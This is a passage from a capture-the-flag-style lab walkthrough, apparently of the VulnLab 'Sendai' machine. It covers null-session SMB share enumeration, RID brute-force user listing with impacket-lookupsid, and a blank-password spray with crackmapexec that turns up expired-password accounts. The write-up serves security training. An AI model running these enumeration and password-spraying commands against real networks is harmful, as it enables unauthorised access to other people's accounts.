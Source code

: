 We seem to have access to a few shares, and the SMB login allows null authentication.

If you do some enumeration into these shares, you'll notice that we only have access to `sendai` and `Users`. The `Users` share just contains the directories of the `Default` and `Public` directories, meaning this specific share is only hosting those User folders within `C:\Users` on the remote computer. The `sendai` share however contains a multitude of folders, specifically containing an interesting file at its root folder.

```
smb: \> ls
  .                                   D        0  Tue Jul 18 13:31:04 2023
  ..                                DHS        0  Wed Jul 19 10:11:25 2023
  hr                                  D        0  Tue Jul 11 08:58:19 2023
  incident.txt                        A     1372  Tue Jul 18 13:34:15 2023
  it                                  D        0  Tue Jul 18 09:16:46 2023
  legal                               D        0  Tue Jul 11 08:58:23 2023
  security                            D        0  Tue Jul 18 09:17:35 2023
  transfer                            D        0  Tue Jul 11 09:00:20 2023

7309822 blocks of size 4096. 604434 blocks available
smb: \> get incident.txt
getting file \incident.txt of size 1372 as incident.txt (2.8 KiloBytes/sec) (average 2.8 KiloBytes/sec)
```

![](/images/vulnlab/sendai-vl/c.png)

It seems as though there is a notice about poor password management/usage within the environment, specifically from the domain users. Aside from this, the note also tells us that all users that have had their passwords reset have been expired as of where we are now.

Given that a few users may have their passwords reset, we can test whether or not any of them have a null password (indicating a user with an expired password). However - we'll need a user list in order to do so. Luckily enough - since we have null authentication to SMB, we can essentially enumerate all of the domain users using a tool such as `lookupsid`. This will brute force all of the domain SIDs of all objects within the domain that have a max RID value below 4000(we can increase this RID value, though its not needed for this machine).

```
impacket-lookupsid sendai.vl/'temp'@10.10.98.227 -no-pass -domain-sids | cut -d '\' -f 2 | awk 'NR >= 31 {print $1}' > full_ul.txt
```

I've done the needful and converted all of the domain users into a wordlist. Let's now test for any users that have an expired password.

```
└─$ crackmapexec smb 10.10.98.227 -u full_ul.txt -p '' --continue-on-success
[-] sendai.vl\Elliot.Yates: STATUS_PASSWORD_MUST_CHANGE
[-] sendai.vl\Thomas.Powell: STATUS_PASSWORD_MUST_CHANGE
```

You'll receive a few false positives from users such as `admsvc` or `staff`, and this is due to the fact that these aren't legitimate domain users. Since they aren't domain users, SMB falls back on its null authentication for these usernames - meaning they would work regardless.
